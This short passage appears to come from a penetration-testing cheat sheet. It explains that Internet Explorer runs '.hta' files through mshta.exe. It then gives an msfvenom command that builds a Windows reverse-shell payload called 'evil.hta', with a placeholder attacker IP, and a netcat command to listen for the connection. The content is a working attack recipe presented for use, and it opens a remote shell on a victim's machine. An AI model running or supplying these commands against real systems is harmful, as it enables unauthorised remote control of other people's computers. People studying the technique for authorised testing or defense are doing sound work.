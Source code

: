 
If a file is created with the extension of _**.hta**_ instead of _**.html**_, Internet Explorer will automatically interpret it as an HTML Application and offer the ability to execute it using the mshta.exe program. This attack only works for Internet Explorer.

```
# Crafting a payload and listener
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<port> -f hta-psh -o evil.hta
nc -lnvp 4444
```